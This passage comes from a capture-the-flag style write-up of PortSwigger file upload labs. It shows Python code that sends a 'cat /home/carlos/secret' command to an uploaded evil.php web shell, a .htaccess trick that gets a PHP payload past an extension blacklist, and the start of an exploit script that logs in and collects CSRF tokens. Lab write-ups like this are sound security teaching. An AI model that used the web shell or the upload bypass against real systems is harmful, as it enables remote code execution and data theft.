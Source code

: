 ```python

params = {
	'cmd':'cat /home/carlos/secret'
}
r = s.get(url + '/files/evil.php', params=params)
print(r.text)
```

The above prints the flag out.

## Lab 4: Extension Blacklist Bypass

This lab has a blacklist on the allowed file extensions.

![](../../.gitbook/assets/portswigger-fileupload-writeup-image-5.png)

There is a file that is blocking my PHP file. For this case, I tried the `.htaccess` upload trick.

{% embed url="https://stackoverflow.com/questions/4687208/using-htaccess-to-make-all-html-pages-to-run-as-php-files" %}

Firstly, I can try to upload this `.htaccess` file as `text/plain`:

```
AddType application/x-httpd-php .evil
```

Then, I can proceed with the regular script:

```python
import requests
import re
import sys
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

HOST = '0ac300df03d0d81981e626fa0045008b'

proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
url = f'https://{HOST}.web-security-academy.net'
s = requests.Session()

r = s.get(url + '/login')
match = re.search(r'name="csrf" value="([0-9a-zA-z]+)', r.text)
login_csrf_token = match[1]

data = {
	'csrf':login_csrf_token,
	'username':'wiener',
	'password':'peter'
}

login_r = s.post(url + '/login', data=data)
if login_r.status_code != 200:
	print("[-] Login failed")
	sys.exit(1)

print("[+] Login worked")
profile_r = s.get(url + '/my-account?id=wiener')
match = re.search(r'name="csrf" value="([0-9a-zA-z]+)', profile_r.text)
upload_csrf_token = match[1]

```